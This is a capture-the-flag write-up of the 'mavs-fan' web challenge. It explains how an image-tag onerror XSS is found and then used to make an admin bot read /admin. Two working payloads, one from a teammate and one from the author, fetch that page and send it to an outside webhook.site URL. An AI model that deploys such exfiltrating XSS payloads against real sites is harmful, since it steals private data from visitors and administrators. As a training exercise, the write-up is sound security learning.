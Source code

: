 # mavs-fan - web

## Challenge

Just a Mavs fan trying to figure out what Nico Harrison cooking up for my team nowadays...

Hint - You can send a link to your post that the admin bot will visit.

## Solve

In this challenge we are provided a webpage where users can post messages. 

![mavs-1](https://github.com/user-attachments/assets/70c2beb9-22cf-4947-970f-24c66b566136)


When a message is posted, a URL is generated which can be sent to the 'admin bot' who will visit the post.

This seemed like an XXS so I firstly tested for script injection:

```html
<script>alert('working')</script>
```

Submitting this payload and visiting the URL presented no output so I assumed the application had some built in protection against it.

Next I tested for an event based XSS:

```html
<img src=x onerror=alert('working')>
```
- Setting img src to 'x' immediately triggers error as invalid URL
- `onerror` parameter executes JS when error occurs while loading image

This was successful, and the popup is displayed on the screen:

![mavs2](https://github.com/user-attachments/assets/e385a1da-4783-4f68-ae76-4c81b1d86d8b)

So we know we can use this method to execute code within the browser of the user visiting the post. Just need the right payload to read `/admin`.

Credit to my teammate `Solopie` for his initial solution which assisted me in developing mine:

***Solopies***
```html
<img src=x onerror='fetch("/admin").then(r => r.text()).then(html => fetch("https://webhook.site/fec2d565-693d-4010-9574-e7c9ffe7dd9b", {method: "POST", body:html}))' />
```

***Mine***
```html
<img src=x onerror='(async () => {
  let admin = await fetch("/admin");
  let text = await admin.text();
  fetch("https://webhook.site/d81d0cf2-a48a-4a3b-9135-f61410b83df0", { method: "POST", body: text });
})()'>
```
- `async()` is immediately called with `()` and enables use of `await` keyword
- `await` keyword makes the function pause the execution and wait for code to be successful before it continues
    - before attempting to store the `.text()` property of the HTML object `admin` in text, the program ensures that `/admin` has been fetched
    - likewise, before exfiltrating `text` to the web hook, the program ensures it has been successfully stored 
- `fetch("...", { method: "POST", body: text });`
    - Sends a POST request to webhook site containing `text` (the contents of the admin page)
- `()` at the end immediately calls the overall arrow function as soon as it is defined

Submitting the generated URL to the admin bot and checking the webhook site shows that the payload was successful:

![mavs3](https://github.com/user-attachments/assets/935f4044-3537-42b6-b4f7-49f3c75288a6)


`lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`
